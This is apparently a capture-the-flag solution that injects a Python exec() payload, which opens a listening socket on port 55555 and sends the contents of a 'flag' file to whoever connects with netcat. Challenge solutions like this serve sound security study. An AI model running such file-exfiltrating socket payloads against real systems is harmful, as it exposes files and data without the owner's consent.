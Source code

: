 #Solution

exec('import socket; s = socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); s.bind(("0.0.0.0", 55555)); s.listen(1); c = s.accept()[0]; c.send(open("flag", "rb").read())')

then connect to server via netcat: "nc host 55555". It will send us a flag.
